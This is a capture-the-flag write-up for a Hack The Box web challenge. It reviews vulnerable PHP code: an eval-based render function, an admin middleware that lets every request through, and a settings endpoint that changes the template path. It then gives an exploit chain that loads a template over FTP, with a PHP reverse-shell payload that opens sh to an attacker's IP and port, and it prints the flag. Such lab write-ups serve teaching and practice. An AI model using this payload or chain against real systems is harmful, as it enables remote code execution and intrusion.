 # Eldoria Panel (Unintended solution)
Tags: #php #rfi #ftp #rce 
## TLDR
RFI -> RCE
## Description
> A development instance of a panel related to the Eldoria simulation was found. Try to infiltrate it to reveal Malakar's secrets.
## Overview
It's a website that shows quests that can be claimed.
## Road to flag
The flag is in a file with a random name `mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt` -> RCE
## Code review
- Every page is returned using `render`.
```php
$app->get('/dashboard', function (Request $request, Response $response, $args) {
    $html = render($GLOBALS['settings']['templatesPath'] . '/dashboard.php');
    $response->getBody()->write($html);
    return $response;
})->add($authMiddleware);
```

- The function `render` is vulnerable to RCE due to the use of `eval`
```php
function render($filePath) {
    if (!file_exists($filePath)) {
        return "Error: File not found.";
    }
    $phpCode = file_get_contents($filePath);
    ob_start();
    eval("?>" . $phpCode);
    return ob_get_clean();
}
```

But uses `file_exists` before calling `file_get_contents`. How can I provide a valid file?

- It's possible to set the **template path** calling `/api/admin/appSettings`
```php
$app->post('/api/admin/appSettings', function (Request $request, Response $response, $args) {
	$data = json_decode($request->getBody()->getContents(), true);
	if (empty($data) || !is_array($data)) {
		$result = ['status' => 'error', 'message' => 'No settings provided'];
	} else {
		$pdo = $this->get('db');
		$stmt = $pdo->prepare("INSERT INTO app_settings (key, value) VALUES (?, ?) ON CONFLICT(key) DO UPDATE SET value = excluded.value");
		foreach ($data as $key => $value) {
			$stmt->execute([$key, $value]);
		}
		if (isset($data['template_path'])) {
			$GLOBALS['settings']['templatesPath'] = $data['template_path'];
		}
		$result = ['status' => 'success', 'message' => 'Settings updated'];
	}
	$response->getBody()->write(json_encode($result));
	return $response->withHeader('Content-Type', 'application/json');
})->add($adminApiKeyMiddleware);
```

- The middleware is useless because calls `$handler->handle($request);` regardless -> every user can call admin routes.
```php
$adminApiKeyMiddleware = function (Request $request, $handler) use ($app) {
	if (!isset($_SESSION['user'])) {
		$apiKey = $request->getHeaderLine('X-API-Key');
		if ($apiKey) {
			$pdo = $app->getContainer()->get('db');
			$stmt = $pdo->prepare("SELECT * FROM users WHERE api_key = ?");
			$stmt->execute([$apiKey]);
			$user = $stmt->fetch(PDO::FETCH_ASSOC);
			if ($user && $user['is_admin'] === 1) {
				$_SESSION['user'] = [
					'id'              => $user['id'],
					'username'        => $user['username'],
					'is_admin'        => $user['is_admin'],
					'api_key'         => $user['api_key'],
					'level'           => 1,
					'rank'            => 'NOVICE',
					'magicPower'      => 50,
					'questsCompleted' => 0,
					'artifacts'       => ["Ancient Scroll of Wisdom", "Dragon's Heart Shard"]
				];
			}
		}
	}
	return $handler->handle($request);
};
```

## Exploitation
Since we can't write local files, we can't provide a valid local file to `file_exsists` and `file_get_contents` that triggers RCE.
To bypass the file operation restrictions, we can leverage PHP wrappers ([documentation](https://www.php.net/manual/en/wrappers.php)).
`HTTP` can't be used because `allow_url_fopen = on` is not present in `php.ini`.

After testing some of them, I found that `ftp` works with both `file_exsists` and `file_get_contents`.

Full exploit:
1. start an ftp server and host `dashboard.php` with content ``<?php $sock=fsockopen("IP",PORT);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>``
2. set template path: `POST /api/admin/appSettings` `{"template_path":"ftp://IP/dashboard.php"}`
3. get `/dashboard`
4. profit

`HTB{p41n_c4us3d_by_th3_usu4l_5u5p3ct_2976d9b37dabc9f2d52e7f45c1b954fe}`
